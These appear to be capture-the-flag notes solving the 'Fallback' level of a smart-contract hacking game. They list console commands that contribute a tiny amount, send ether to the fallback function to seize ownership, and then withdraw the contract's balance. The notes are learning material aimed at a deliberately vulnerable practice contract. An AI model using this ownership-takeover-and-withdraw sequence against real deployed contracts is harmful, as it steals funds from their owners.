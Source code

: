 1. Fallback
-----------
* `await getBalance(contract.address)`
* [Send Ether](https://ethereum.stackexchange.com/a/53102)
  * `amount = toWei('0.00000001', 'ether')`
  * `await contract.contribute.sendTransaction(<function params>, <tx>)`
    * This will pay the `contribute` function.
    * `tx`: `{from:player, value:<amount>}`
    * Alternative takeover: pay more than the owner (1000 ether).
  * `await sendTransaction(<tx>)`
    * This will pay the fallback method.
    * `tx`: `{from:player, to:instance, value:<amount>}`
* `await contract.owner()`
* `await contract.withdraw()`
  * The solution was to first contribute, then pay the fallback.
  * Other solution: fallback in the `onlyOwner` modifier?

